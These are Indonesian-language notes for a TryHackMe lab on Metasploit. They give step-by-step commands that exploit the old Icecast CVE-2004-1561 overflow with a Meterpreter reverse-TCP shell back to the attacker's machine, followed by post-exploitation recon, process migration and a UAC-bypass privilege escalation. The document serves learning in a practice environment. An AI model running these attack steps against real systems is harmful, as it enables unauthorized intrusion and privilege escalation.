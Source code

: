 # Memakai Metasploit

Persiapan Metasploit:
```sh
sudo systemctl start postgresql

sudo msfdb init

sudo msfconsole
```

Didalam metasploit:
```sh
db_status

workspace -a intro-metasploit

workspace
```

Search module:
```sh
search

search x86/shell_reverse_tcp

search x86/shell/reverse_tcp

```

## Eksploitasi Vulnerability Icecast TryHackMe
https://tryhackme.com/room/rpmetasploit

Icecast adalah tools untuk internet audio streaming, contoh penggunaanya adalah internet radio.

Icecast pernah memiliki vulnerability Remote Code Execution (RCE)
[CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561/)  

Buffer overflow dengan cara mengirimkan 32 header HTTP ke server icecast versi 2.01 (hanya bekerja di Windows).

```sh
# Gunakan Nmap pada Metasploit
db_nmap -sV -T4 <IP_TARGET>

# cek isi database
hosts
services
vulns
```

Sekarang set eksploit dan payload.  
```sh
# gunakan file eksploitasi icecast versi 2.01
search icecast
use 0

# set payload, contohnya gunakan meterpreter
set payload windows/meterpreter/reverse_tcp

# lihat isi options
options

# isi yang dibutuhkan
set rhosts <IP_TARGET>
set lhost <IP_KAMU>

# jalankan eksploitasi
exploit
```

Sebelum menggunakan Meterpreter
```sh
# background process
bg

# lihat daftar session
sessions

# berinteraksi dengan session
sessions -i <Id>
```

Menggunakan Meterpreter
```sh
# informasi tentang sistem
sysinfo

# informasi tentang user
getuid

# informasi proses yang berjalan
ps

# berpindah ke proses lain, untuk mencari batu pijakan yang kuat
migrate <PID>

# get help
help
```

Post Exploitation dengan Meterpreter
```sh
# eksekusi post modul Metasploit
run post/windows/gather/checkvm

# exploit suggester
run post/multi/recon/local_exploit_suggester
run post/multi/recon/local_exploit_suggester SHOWDESCRIPTION=true
```
Exploit suggester juga memberitahukan tingkat keefektifan dari eksploit yang ditampilkan:
- Vulnerable: setelah dicek, target terbukti kuat memiliki vulnerability.
- Appears: target memiliki versi resource yang vulnerable.
- Detected: target memiliki vulnerable service yang sedang beroperasi, namun tidak dapat dicek.

Privilege Escalation
```sh
#background meterpreter
bg

# ambil salah satu informasi dari local_exploit_suggester
use exploit/windows/local/bypassuac_dotnet_profiler

# set options
set session <ID_SESSION>
set lhost <IP_KAMU>

# exploit
exploit

# percobaan migrasi ke proses lain
ps

# cari PID svchost.exe dengan kepemilikan NT Authority
migrate <PID>

# Escalated?
getuid
```


## Modul
Apabila menambahkan modul, kamu perlu restart Metasploit, atau reload_all
```sh
# primer
/usr/share/metasploit-framework/modules/

# sekunder (untuk menyimpan custom module)
~/.msf4/modules/
```

Menggunakan modul, sekali sesi
```sh
# teknik 1:
msfconsole -m /lokasi/folder/modul

# teknik 2:
msfconsole
loadpath /lokasi/folder/modul

```


